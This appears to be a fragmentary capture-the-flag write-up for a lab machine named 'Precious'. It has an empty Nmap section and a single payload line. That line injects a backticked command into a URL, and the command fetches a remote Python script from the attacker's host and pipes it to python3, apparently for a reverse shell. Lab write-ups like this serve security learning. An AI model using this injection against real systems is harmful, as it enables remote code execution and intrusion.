 
# Precious

## IP = 10.10.11.189

## Nmap

### Initial
```
```

## Payload: http://%20`curl http://10.10.16.45:8000/rev.py | python3`
